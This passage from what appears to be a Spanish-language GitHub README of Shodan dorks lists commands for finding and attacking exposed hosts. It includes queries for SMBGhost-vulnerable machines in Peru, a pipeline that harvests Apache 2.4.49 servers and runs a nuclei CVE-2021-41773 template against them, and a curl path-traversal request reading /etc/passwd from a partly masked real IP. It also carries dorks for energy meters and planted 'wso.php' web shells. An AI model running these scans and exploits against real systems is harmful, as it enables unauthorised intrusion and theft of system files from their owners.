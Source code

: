 ```sh
telnet 212.x.x.14
```
![13](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/90258052-da22-40bb-80e2-908a4dff8af3)

## Exploit Infrastructure RCE CVE-2020-0796
La vulnerabilidad CVE-2020-0796 se refiere a una vulnerabilidad de ejecución de código remoto (RCE, por sus siglas en inglés) que afecta al protocolo de compartición de archivos SMBv3 (Server Message Block version 3). SMB es un protocolo utilizado para compartir archivos, impresoras y otros recursos en redes de computadoras. La versión 3 (SMBv3) es una versión moderna de este protocolo utilizada en sistemas operativos Windows.

Esta vulnerabilidad se conoció coloquialmente como "SMBGhost" o "CoronaBlue" y fue anunciada en marzo de 2020. 

```sh
vuln:CVE-2020-0796
country:pe port:445
```
![14](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/78132a91-52f4-4285-862f-b6367ffd9a52)

![15](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/05606a90-4828-491e-8fc7-b34eea27d5eb)

## Exploit Web RCE CVE-2021-41773
```sh
shodan search :apache 2.4.49  --fields ip_str,port --separator " " | awk '{print $1":"$2}' | cat > url.txt
cat url.txt | httpx | nuclei -t nuclei-templates/cves/2021/CVE-2021-41773.yaml
```
![16](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/ce43c1a0-047e-45c3-8a2c-eb18efce51f1)

```sh
curl -k http://210.x.x.7/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd 
```
![17](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/9e40e0b5-a665-4133-a61f-5e2c69fb0310)


## Electronic measure

```sh
"Server: EIG Embedded Web Server" "200 Document follows"
```
![18](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/b93bf1c7-af97-4152-9c38-85d907a083c7)

## Search Web shell 

```sh
html:"wso.php"
```
![19](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/0f2644f7-75e6-46eb-992f-5a3f9c41f185)

